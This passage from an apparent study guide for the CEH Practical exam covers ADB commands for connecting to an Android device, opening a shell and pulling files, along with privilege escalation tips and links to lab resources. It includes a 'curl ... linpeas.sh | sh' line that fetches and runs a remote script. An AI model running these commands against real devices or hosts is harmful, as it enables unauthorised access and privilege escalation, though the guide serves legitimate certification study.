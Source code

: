   - https://www.hackingarticles.in/comprehensive-guide-on-searchsploit/

- **ADB**
  ```
  adb devices -l

  # Connection Establish Steps
  adb connect 192.168.0.4:5555
  adb devices -l
  adb shell  

  # Download a File from Android using ADB tool
  adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
  adb pull sdcard/log.txt /home/mmurphy/Desktop
  ```

- **Privilege escalation**

    - Always a good idea to execute sudo -l on the victim to check the chances of attack.
    - **LinPEAS/WindPEAS**
      - Linux/Windows local Privilege Escalation Awesome Script (C#.exe and .bat, .sh)
      - https://github.com/carlospolop/PEASS-ng
        - ```curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh```
        - ```https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat```

## Useful Links

- Guide with commands for multiple tools [GOOD]: https://github.com/DarkLycn1976/CEH-Practical-Notes-and-Tools
  - Wireshark, SQLi, Sqlmap, wpscan, hydra, snow, CrypTool, HashCalc, VeraCrypt, BCTextEncoded, snow, ADB, phonesploit
- Several links [FAIR]: https://github.com/CyberSecurityUP/Guide-CEH-Practical-Master
  - Network scanning, Enumeration, Brute force, wordlists, SQLi, steganography, system hacking, web scanners, sniffers, CEH reviews.
- CEH Practical Preparation [FAIR]: https://chirag-singla.notion.site/chirag-singla/CEH-Practical-Preparation-7f2b77651cd144e8872f2f5a30155052
  - Nmap, Hydra, sqlmap, Nikto, john, wpscan, metasploit, nessus, openstego, quickstego, dirbuster
- CEH notes [FAIR]: https://book.thegurusec.com/certifications/certified-ethical-hacker-practical
  - All phases with tools
- Flag hunting CEH Labs [INTERESTING]: https://blogalpharhob.com/?cat=14
  - Different ways of obtaining the flags for questions

## Importan keywords

- Img hidden - Openstego
- .hex - Cryptool
- Whitespace - SNOW
- MD5 - Hashcalc & MD5 Calculator
- Encoded - BCTexteditor
- Volume & mount - Veracrypt

## Example questions and walkthroughs

- https://docs.google.com/document/d/1w-D4__FSRQW-1VMs0zzNlpPirxV6p7ESHTKvye2G464/edit
- CEH review 2023: https://www.youtube.com/playlist?list=PLZEA2EJpqSWfouVNPkl37AWEVCj6A2mdz
- DVWA walkthrough: https://cavementech.com/2022/12/dvwa-walkthrough.html